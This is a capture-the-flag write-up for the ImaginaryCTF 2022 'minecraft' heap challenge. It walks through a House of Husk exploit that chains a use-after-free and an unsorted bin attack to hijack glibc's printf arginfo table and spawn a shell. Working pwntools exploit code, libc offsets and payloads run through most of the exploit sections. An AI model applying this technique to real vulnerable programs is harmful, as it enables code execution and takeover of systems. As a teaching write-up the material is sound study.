




# ImaginaryCTF 2022 - minecraft

### Reference Source

https://maxwelldulin.com/BlogPost?post=3107454976

https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507

---

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge file in my repo: [minecraft.zip](minecraft.zip)

There will be 3 files in zip:
- ld-2.27.so
- libc.so.6
- vuln

Download and extract, then patch libc to binary and we can get started!

# 1. Find bug

At first, by reading the decompiler, we notice there is a **Format String** bug when `(l)eak the end poem`. There is also a **Use-After-Free** bug when we `(b)reak a block` and keep it in inventory and then `(r)eplace a block`. Other options are secured, no of-by-one or any bugs.

# 2. Idea

After searching on google `house of "heap" with "printf"`, we end up with a new technique called `House of Husk` which you can find at reference source above.

A few things new for me, `main_arena + 0x10` is the start address for saving the address of freed chunk which goes to fastbin:



Next, `global_max_fast` is the maximum size that when we free a chunk with size lower than `global_max_fast`, it will go to fastbin at index `(size - 0x20)/0x10` (with size included metadata). Therefore, if we overwrite `global_max_fast` with a large address and then free a large chunk, it will put this chunk into fastbin but out of bound (usually max index is 6) just in case its size is lower than `global_max_fast`, and it will overwrite some address above `main_arena + 0x10`.

The second new thing for me is that if we overwrite bk pointer of a freed chunk in unsorted bin to a value (example `0xdeadbeef`), the next time we malloc, it will write the address of `main_arena + ??` to `bck->fd`, which means it will write address of `main_arena + ??` to `0xdeadbeef + 0x10` and the unsorted bin is corrupt now:



`unsorted_chunks (av)` is the address of `main_arena + ??`.

The third new thing is that the technique. We will attack the unsorted bin to overwrite `global_max_fast` and then, freeing a chunk will write the address of chunk to `__printf_function_table` and `__printf_arginfo_table` which is higher than `main_arena`.

The reason for overwrite those 2 table is because of this check in `__parse_one_specmb` ([source](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdio-common/printf-parsemb.c#L61)):

```c
if (
    __builtin_expect (__printf_function_table == NULL, 1) ||
    spec->info.spec > UCHAR_MAX ||
    __printf_arginfo_table[spec->info.spec] == NULL ||

    (int) (spec->ndata_args = (*__printf_arginfo_table[spec->info.spec])
               (&spec->info, 1, &spec->data_arg_type, &spec->size)) < 0)
{
    ...
}
```

Our target is the execution of `__printf_arginfo_table[spec->info.spec]` so that's why we need to make `__printf_function_table` and `__printf_arginfo_table` not null --> the first 3 checks are false so it executes the function inside `__printf_arginfo_table[spec->info.spec]` with `spec->info.spec` is different with each format string we give (ex: if `print("%X")` then it will execute `*__printf_arginfo_table[0x58]`, if `print("%d")` then it will execute `*__printf_arginfo_table[0x64]` because ascii of `X` is `0x58` and ascii of `d` is `0x64`)

The first argument is `&spec->info` which is a structure and you can find it [here](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdio-common/printf-parse.h#L26) (structure of `spec`) and [here](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdio-common/printf.h#L34) (structore of `info`). So we need to control `&spec->info.prec` to have a string `sh` and `__printf_arginfo_table[spec->info.spec]` to jump to `system@plt`.

And by viewing the blog of ptr-yudai above, we can have a solve script similar to that blog with a bit change.

Summary:
- Stage 1: Make script similar to ptr-yudai script
- Stage 2: Analyze source & Get shell

# 3. Exploit

Before we exploit, I wrote these function for a convenient exploitation:

```python
def PlaceBlock(idx, len, content):
    p.sendlineafter(b'poem\n', b'p')
    p.sendlineafter(b'idx: \n', f'{idx}'.encode())
    p.sendlineafter(b'len: \n', str(len).encode())
    p.sendafter(b'block: \n', content)

def ReplaceBlock(idx, content):
    p.sendlineafter(b'poem\n', b'r')
    p.sendlineafter(b'idx: \n', f'{idx}'.encode())
    p.sendafter(b'block: \n', content)

def BreakBlock(idx, keep):
    p.sendlineafter(b'poem\n', b'b')
    p.sendlineafter(b'idx: \n', f'{idx}'.encode())
    p.sendlineafter(b'inventory? \n', keep)

def LeakPoem(idx):
    p.sendlineafter(b'poem\n', b'l')
    p.sendlineafter(b'idx: \n', f'{idx}'.encode())
```

### Stage 1: Make script similar to ptr-yudai script

Debug with gdb and we can get all the neccessary stuffs:

```python
PRINTF_FUNCTABLE = 0x3f0738
PRINTF_ARGINFO = 0x3ec870
GLOBAL_MAX_FAST = 0x3ed940
MAIN_ARENA = 0x3ebc40
```

Now, let's malloc and free as the blog show:

```python
def offset2size(offset):
    return offset * 2 - 0x10

PlaceBlock(0, 0x500, b'0'*8)        # Use After Free
PlaceBlock(1, offset2size(PRINTF_FUNCTABLE - MAIN_ARENA), b'1'*8)
# prepare fake printf arginfo table
payload = flat(
    b'\x00'*(ord('X')-2)*8,
    0xdeadbeef,
    )
PlaceBlock(2, offset2size(PRINTF_ARGINFO - MAIN_ARENA), payload)
PlaceBlock(3, 0x500, b'%X\x00')

# unsorted bin attack
BreakBlock(0, b'y')
ReplaceBlock(0, b'A'*8 + p16(0x6940 - 0x10))
PlaceBlock(0, 0x500, b'0'*8)

# overwrite __printf_arginfo_table and __printf_function_table
BreakBlock(1, b'n')
BreakBlock(2, b'n')
LeakPoem(3)

p.interactive()
```

> I run script with ASLR disable so we can jump to `0xdeadbeef` easily. Because when attack unsorted bin, we don't know the address of `global_max_fast` so we need to bruteforce 2 bytes. That's the reason for line `ReplaceBlock(0, b'A'*8 + p16(0x6940 - 0x10))` 

> To run without ASLR, add `NOASLR` when executing script. Ex: `python3 run.py NOASLR`

Executing script and attach with gdb, we know it jump to our address `0xdeadbeef`:



Wonderful! Let's modify the code a bit and we can execute `system("sh")`.

### Stage 2: Analyze source & Get shell

Still in source `__parse_one_specmb` ([source](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdio-common/printf-parsemb.c#L61)), as we've discussed that rdi is `&spec->info.prec` and this variable can be modify by us. Searching for string `spec->info.prec` in source and we see this code:

```c
if ( * format == L_('.')) {
    ++format;
    if ( * format == L_('*')) {
        /* The precision is given in an argument.  */
        const UCHAR_T * begin = ++format;

        if (ISDIGIT( * format)) {
            n = read_int( & format);

            if (n != 0 && * format == L_('$')) {
                if (n != -1) {
                    spec -> prec_arg = n - 1;
                    * max_ref_arg = MAX( * max_ref_arg, n);
                }
                ++format;
            }
        }

        if (spec -> prec_arg < 0) {
            /* Not in a positional parameter.  */
            spec -> prec_arg = posn++;
            ++nargs;
            format = begin;
        }
    } else if (ISDIGIT( * format)) {
        int n = read_int( & format);

        //// Pay attention here //// 
        if (n != -1)
            spec -> info.prec = n;
        //// Pay attention here ////
    } else
        /* "%.?" is treated like "%.0?".  */
        spec -> info.prec = 0;
}
```

The code I added comment `Pay attention here` will help us change `spec->info.prec`. Look at this code, we know it will parse our number in `%.<number>d` and add the `<number>` to `spec->info.prec`. So if we can make `spec->info.prec` contain number `26739` which in hex format is `0x6873`, that's the string `sh` we want.

And now, inputing number is an easy job with format string `%d` or `%X` it's up to you but remember to pad correctly because `__printf_arginfo_table[spec->info.spec]` has `spec->info.spec` is the ascii of `d` or `X` that you input. I will use `%d` here so the line:

```python
PlaceBlock(3, 0x500, b'%X\x00')
```

Changed to:

```python
PlaceBlock(3, 0x500, b'%.26739d\x00')    # Changed here
```

Now, we want to execute system and luckily, we have `system@plt` here so leaking libc is not neccessary now. Just simply change address `0xdeadbeef` above to address of `system@plt` and we can get shell now:

```python
def offset2size(offset):
    return offset * 2 - 0x10

PlaceBlock(0, 0x500, b'0'*8)        # Use After Free
PlaceBlock(1, offset2size(PRINTF_FUNCTABLE - MAIN_ARENA), b'1'*8)
# prepare fake printf arginfo table
payload = flat(
    b'\x00'*(ord('d')-2)*8,              # Changed here
    exe.plt['system'],                   # Changed here
    )
PlaceBlock(2, offset2size(PRINTF_ARGINFO - MAIN_ARENA), payload)
PlaceBlock(3, 0x500, b'%.26739d\x00')    # Changed here

# GDB()
# unsorted bin attack
BreakBlock(0, b'y')
ReplaceBlock(0, b'A'*8 + p16(0x6940 - 0x10))
PlaceBlock(0, 0x500, b'0'*8)

# overwrite __printf_arginfo_table and __printf_function_table
BreakBlock(1, b'n')
BreakBlock(2, b'n')
LeakPoem(3)
```

As I said in stage 1, we don't have address of `global_max_fast` so we need to bruteforce 2 byte of that. Just put everything in a loop and it will loop until we get shell.

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `ictf{pr1ntf_is_p0werful_86b21f38}`